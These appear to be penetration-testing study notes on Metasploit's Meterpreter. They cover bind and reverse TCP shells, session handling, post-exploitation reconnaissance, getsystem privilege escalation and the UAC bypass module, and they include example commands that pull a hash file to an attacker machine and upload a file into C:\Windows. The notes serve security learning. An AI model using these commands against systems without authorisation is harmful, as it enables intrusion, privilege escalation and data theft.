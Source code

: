 ## Meterpreter

+ Provides many useful features which can help a penetration tester further infiltrate the target system and network
+ Provide advanced features than a simple shell.

## Bind and Reverse 

*Meterpreter* can both **wait for a connection** on the target or **connect back** to the attacker machine.

+ It's most used configurations are:
  + *bind_tcp*
  + *reverse_tcp*
 
 **Bind_tcp:** runs a server process on the target machine that waits for connections from the attacker machine.
 
 **Reverse_tcp:** performs a TCP connection back to the attacker machine. This feature could help evade FW rules.
 
 ## Sessions
 
 + You can switch from a Meterpreter session to the console by using **background** command.
 + you can list currently opened sessions by using the **sessions -l** command.
 + to resume a bg session, you have to use the **sessions -i #** command.
 
 
 ### Gather information commands
 
+ The `sysinfo` command lets you retrieve info about the exploited machine.
+ the `ifconfig` command prints the network configuration
+ you can check the routing table with the `route` commnad
+ to know **which user is running** the process exploited , you can use `getuid` command
+ you can use `getsystem` command to escalate privileges.
  +*Note that in modern windows OS, the UAC(user account policy) policy prevents privilege escalation*

You can bypass UAC module
> use exploit/windows/local/bypassuac

### Uploading and Downloading

You can upload and download files by using the homonymous commands

```bash
meterpreter > download hash.log /ruta/del/atacante/
meterpreter > upload /ruta/del/archivo/del/atacante.txt C:\\Windows
```
